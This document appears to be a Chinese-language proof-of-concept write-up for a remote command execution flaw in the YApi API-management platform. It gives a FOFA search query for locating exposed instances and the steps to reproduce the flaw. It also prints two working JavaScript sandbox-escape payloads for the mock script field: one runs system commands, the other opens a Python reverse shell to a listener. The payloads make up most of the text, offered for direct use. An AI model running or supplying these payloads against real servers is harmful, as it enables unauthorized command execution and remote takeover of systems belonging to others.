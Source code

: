 # Yapi存在远程命令执行漏洞

# 一、漏洞简介
Yapi存在远程命令执行漏洞

# 二、影响版本
+ Yapi

# 三、资产测绘
+ fofa：`app="YApi"`
+ 特征

![1733889052543-d9462fa4-5ed8-49c3-90e0-0e22bdb0bf3d.png](./img/R4R5xyBZVQ_9RrKW/1733889052543-d9462fa4-5ed8-49c3-90e0-0e22bdb0bf3d-882788.png)

# 四、漏洞复现
注册账号登录

![1733889068979-94f17c91-b7c5-4736-b63a-ec608cf02a06.png](./img/R4R5xyBZVQ_9RrKW/1733889068979-94f17c91-b7c5-4736-b63a-ec608cf02a06-740149.png)

新建项目

![1733889103239-3d32f9de-1ae6-4668-802b-4ba25b36ede2.png](./img/R4R5xyBZVQ_9RrKW/1733889103239-3d32f9de-1ae6-4668-802b-4ba25b36ede2-659707.png)

添加接口

![1733889123950-560b7590-201a-477d-98e0-aba7da89b62a.png](./img/R4R5xyBZVQ_9RrKW/1733889123950-560b7590-201a-477d-98e0-aba7da89b62a-577318.png)

```java
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami && ps -ef").toString()
```

![1733889157562-bdbc7f22-a8c2-4a3c-a54a-4203d7dd3622.png](./img/R4R5xyBZVQ_9RrKW/1733889157562-bdbc7f22-a8c2-4a3c-a54a-4203d7dd3622-586119.png)

![1733889175163-7053a924-2cc1-4bbf-9f22-18d333698b52.png](./img/R4R5xyBZVQ_9RrKW/1733889175163-7053a924-2cc1-4bbf-9f22-18d333698b52-059135.png)

![1733889186745-cec84584-2bb5-4a9f-af14-0c06944989d7.png](./img/R4R5xyBZVQ_9RrKW/1733889186745-cec84584-2bb5-4a9f-af14-0c06944989d7-172808.png)

反弹shell

```java
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
Poc = process.mainModule.require("child_process").spawnSync(
  'python', ['-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",6699));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']
)
```

![1733892630767-39caa4e3-fb60-405e-99ef-5c4ac2d09df8.png](./img/R4R5xyBZVQ_9RrKW/1733892630767-39caa4e3-fb60-405e-99ef-5c4ac2d09df8-057460.png)



> 更新: 2024-12-20 14:53:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zwurnkdpoozs08fc>
